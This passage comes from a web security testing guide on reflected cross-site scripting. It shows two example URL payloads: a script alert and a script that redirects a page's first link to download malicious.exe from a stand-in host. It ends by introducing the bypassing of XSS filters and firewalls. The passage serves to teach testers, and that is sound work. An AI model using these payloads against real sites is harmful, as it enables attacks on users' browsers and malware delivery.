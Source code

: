 Let's try to click on the following link and see what happens:

`http://example.com/index.php?user=<script>alert(123)</script>`

If no sanitization is applied this will result in the following popup:

![Alert](images/Alert.png)\
*Figure 4.7.1-2: XSS Example 1*

This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody's browser if he clicks on the tester's link.

#### Example 2

Let's try other piece of code (link):

```txt
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
```

This produces the following behavior:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.7.1-3: XSS Example 2*

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

### Bypass XSS Filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.
